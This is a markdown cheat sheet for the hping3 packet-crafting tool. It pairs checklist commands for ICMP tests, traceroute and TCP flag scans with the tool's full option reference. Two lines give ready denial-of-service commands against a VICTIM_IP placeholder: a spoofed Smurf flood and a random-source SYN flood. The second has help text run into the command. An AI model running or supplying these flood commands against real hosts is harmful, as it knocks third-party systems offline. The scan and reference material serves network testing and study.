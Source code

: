 # Test with Hping3

- [ ] Testing ICMP: `hping3 -1 test.com`
- [ ]  Traceroute using ICMP:  `hping3 --traceroute -V -1 test.com`
- [ ]  Checking port: `hping3 -V -S -p 80 -s 5050 test.com`
- [ ]  Traceroute to a determined port: `hping3 --traceroute -V -S -p 80 -s 5050 test.com`
- [ ]  Other types of ICMP: `hping3 -c 1 -V -1 -C 17 test.com`
- [ ]  Other types of Port Scanning: `hping3 -c 1 -V -p 80 -s 5050 -F test.com`
- [ ]  Ack Scan: `hping3 -c 1 -V -p 80 -s 5050 -A test.com`
- [ ]  Xmas Scan: `hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF test.com`
- [ ]  Null Scan: `hping3 -c 1 -V -p 80 -s 5050 -Y test.com`
- [ ]  Smurf Attack: `hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS`
- [ ]  DOS Land Attack: `hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP --flood: sent packets as fast as possible. Don't show replies. --rand-dest: random destionation address mode. see the man. -V <-- Verbose -c --count: packet count -d --data: data size -S --syn: set SYN flag -w --win: winsize (default 64) -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec -s --baseport: base source port (default random)`

# Hping3 how to use:

### usage: hping3 host [options]
- [ ]  `-h` --help show this help
- [ ]  `-v` --version show version
- [ ]  `-c` --count packet count
- [ ]  `-i` --interval wait (uX for X microseconds, for example -i u1000)
- [ ]  `--fast` alias for -i u10000 (10 packets for second)
- [ ]  `--faster` alias for -i u1000 (100 packets for second)
- [ ]  `--flood` sent packets as fast as possible. Don't show replies.
- [ ]  `-n` --numeric numeric output
- [ ]  `-q` --quiet quiet
- [ ]  `-I` --interface interface name (otherwise default routing interface)
- [ ]  `-V` --verbose verbose mode
- [ ]  `-D` --debug debugging info
- [ ]  `-z` --bind bind ctrl+z to ttl (default to dst port)
- [ ]  `-Z` --unbind unbind ctrl+z
- [ ]  `--beep` beep for every matching packet received

### Mode (default mode TCP)
- [ ]  `-0 --rawip` RAW IP mode
- [ ]  `-1 --icmp` ICMP mode
- [ ]  `-2 --udp` UDP mode
- [ ]  `-8 --scan` SCAN mode.
- [ ]  `-9 --listen` listen mode

### IP
- [ ]  `-a --spoof` spoof source address
- [ ]  `--rand-dest` random destionation address mode. see the man.
- [ ]  `--rand-source` random source address mode. see the man.
- [ ]  `-t --ttl` ttl (default 64)
- [ ]  `-N --id` id (default random)
- [ ]  `-W --winid` use win* id byte ordering
- [ ]  `-r --rel` relativize id field (to estimate host traffic)
- [ ]  `-f --frag` split packets in more frag. (may pass weak acl)
- [ ]  `-x --morefrag` set more fragments flag
- [ ]  `-y --dontfrag` set dont fragment flag
- [ ]  `-g --fragoff` set the fragment offset
- [ ]  `-m --mtu` set virtual mtu, implies --frag if packet size > mtu
- [ ]  `-o --tos` type of service (default 0x00), try --tos help
- [ ]  `-G --rroute` includes RECORD_ROUTE option and display the route buffer
- [ ]  `--lsrr` loose source routing and record route
- [ ]  `--ssrr` strict source routing and record route
- [ ]  `-H --ipproto` set the IP protocol field, only in RAW IP mode


### ICMP
- [ ]  `-C --icmptype` icmp type (default echo request)
- [ ]  `-K --icmpcode` icmp code (default 0)
- [ ]  `--force-icmp` send all icmp types (default send only supported types)
- [ ]  `--icmp-gw` set gateway address for ICMP redirect (default 0.0.0.0)
- [ ]  `--icmp-ts` Alias for --icmp --icmptype 13 (ICMP timestamp)
- [ ]  `--icmp-addr` Alias for --icmp --icmptype 17 (ICMP address subnet mask)
- [ ]  `--icmp-help` display help for others icmp options


### UDP/TCP
- [ ]  `-s --baseport` base source port (default random)
- [ ]  `-p --destport` [+][+]<port> destination port(default 0) ctrl+z inc/dec
- [ ]  `-k --keep` keep still source port
- [ ]  `-w --win` winsize (default 64)
- [ ]  `-O --tcpoff` set fake tcp data offset (instead of tcphdrlen / 4)
- [ ]  `-Q --seqnum` shows only tcp sequence number
- [ ]  `-b --badcksum` (try to) send packets with a bad IP checksum many systems will fix the IP checksum sending the packet so you'll get bad UDP/TCP checksum instead.
- [ ]  `-M --setseq` set TCP sequence number
- [ ]  `-L --setack` set TCP ack
- [ ]  `-F --fin` set FIN flag
- [ ]  `-S --syn` set SYN flag
- [ ]  `-R --rst` set RST flag
- [ ]  `-P --push` set PUSH flag
- [ ]  `-A --ack` set ACK flag
- [ ]  `-U --urg` set URG flag
- [ ]  `-X --xmas` set X unused flag (0x40)
- [ ]  `-Y --ymas` set Y unused flag (0x80)
- [ ]  `--tcpexitcode` use last tcp->th_flags as exit code
- [ ]  `--tcp-timestamp` enable the TCP timestamp option to guess the HZ/uptime


### Common
- [ ]  `-d --data` data size (default is 0)
- [ ]  `-E --file` data from file
- [ ]  `-e --sign` add 'signature'
- [ ]  `-j --dump` dump packets in hex
- [ ]  `-J --print` dump printable characters
- [ ]  `-B --safe` enable 'safe' protocol
- [ ]  `-u --end` tell you when --file reached EOF and prevent rewind
- [ ]  `-T --traceroute` traceroute mode (implies --bind and --ttl 1)
- [ ]  `--tr-stop` Exit when receive the first not ICMP in traceroute mode
- [ ]  `--tr-keep-ttl` Keep the source TTL fixed, useful to monitor just one hop
- [ ]  `--tr-no-rtt` Don't calculate/show RTT information in traceroute mode


### ARS packet description
- [ ]  `--apd-send` Send the packet described with APD
